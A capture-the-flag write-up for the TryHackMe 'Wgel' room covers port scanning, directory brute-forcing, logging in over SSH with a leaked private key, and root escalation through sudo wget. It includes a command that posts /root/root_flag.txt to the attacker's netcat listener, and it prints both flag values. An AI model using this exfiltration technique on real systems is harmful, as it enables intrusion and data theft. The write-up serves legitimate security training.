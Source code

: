 # Wgel

<div align="left">

<figure><img src=".gitbook/assets/image (40).png" alt="" width="188"><figcaption></figcaption></figure>

</div>

🔗 [Wgel](https://tryhackme.com/room/wgelctf)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.22.231`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.22.231 wgel.thm" >> /etc/hosts

mkdir thm/wgel.thm
cd thm/wgel.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 wgel.thm
ING wgel.thm (10.10.22.231) 56(84) bytes of data.
64 bytes from wgel.thm (10.10.22.231): icmp_seq=1 ttl=63 time=63.8 ms
64 bytes from wgel.thm (10.10.22.231): icmp_seq=2 ttl=63 time=69.9 ms
64 bytes from wgel.thm (10.10.22.231): icmp_seq=3 ttl=63 time=63.3 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 wgel.thm -oG nmap/port_scan
```

```bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-06 13:14 EDT
Initiating SYN Stealth Scan at 13:14
Scanning wgel.thm (10.10.22.231) [65536 ports]
Discovered open port 22/tcp on 10.10.22.231
Discovered open port 80/tcp on 10.10.22.231
Completed SYN Stealth Scan at 13:14, 14.20s elapsed (65536 total ports)
Nmap scan report for wgel.thm (10.10.22.231)
Host is up, received user-set (0.070s latency).
Scanned at 2023-10-06 13:14:45 EDT for 14s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 21, 22, 80.

Now, we need to search which services are running on open ports:

```bash
nmap -p22,80 -n -Pn -vvv -sCV --min-rate 5000 wgel.thm -oN nmap/open_port
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We see that we've two open ports: 22 and 80.

### Task 3 - What are the contents of user.txt?

Then we can start to see website (port 80):

<figure><img src=".gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

and see page source for checking information disclosure.

<figure><img src=".gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

Very good! Thanks to this message, we know that Jessie is a user/web master.

Another good thing to do, is find hidden paths on website using gobuster

```
gobuster dir -u wgel.thm -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src=".gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

We can explore /sitemap path:

<figure><img src=".gitbook/assets/image (34).png" alt=""><figcaption></figcaption></figure>

We can try to do a new gobuster search start at this point:

```bash
gobuster dir -u wgel.thm/sitemap -w /usr/share/wordlists/dirb/common.txt  
```

<figure><img src=".gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

<div align="left">

<figure><img src=".gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

</div>

we've find and id\_rsa:

<figure><img src=".gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

remembering that we've user and id rsa, first take permission to id\_rsa file and try login:

```bash
chmod 600 id_rsa
ssh -i id_rsa jessie@wgel.thm
```

<div align="left">

<figure><img src=".gitbook/assets/Schermata del 2023-10-07 15-16-33.png" alt=""><figcaption></figcaption></figure>

</div>

We're in, try to find user.txt flag using find command:\


```bash
find / -type f -iname "*flag.txt" 2>/dev/null
```

<figure><img src=".gitbook/assets/image (42).png" alt=""><figcaption></figcaption></figure>

<details>

<summary>🚩 Flag 1 (user_flag.txt)</summary>

057c67131c3d5e42dd5cd3075b198ff6

</details>

### Task 4 - What are the contents of root.txt?

We can do sudo -l command to discover user's permissions.

<figure><img src=".gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

We can run /usr/bin/wget as root. Perfect, time to go to GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/)) and find our exploit.&#x20;

<figure><img src=".gitbook/assets/image (43).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/wget/">https://gtfobins.github.io/gtfobins/wget/</a></p></figcaption></figure>

<div align="left">

<figure><img src=".gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure>

</div>

unfortunately, it doesn't work!

Checking on google, we find this good article that suggests to use post-file option of wget  command, to send the content of any file.

<figure><img src=".gitbook/assets/image (44).png" alt=""><figcaption><p><a href="https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/">https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/</a></p></figcaption></figure>

More probably root flag there're in root path and its name will be similar than user\_flag.txt, then, we can try to setting post-file option: —post-file=/root/root\_flag.txt, add our IP and open a listen session with netcat to receive file.

<figure><img src=".gitbook/assets/image (54).png" alt=""><figcaption><p>find IP and listen on port 4444</p></figcaption></figure>

```bash
sudo /usr/bin/wget http://10.9.80.228:4444 --post-file=/root/root_flag.txt
```

<figure><img src=".gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

<div align="left">

<figure><img src=".gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

</div>

Well done! Root flag found!

<details>

<summary>🚩 Flag 2 (root_flag.txt)</summary>

b1b968b37519ad1daa6408188649263d

</details>
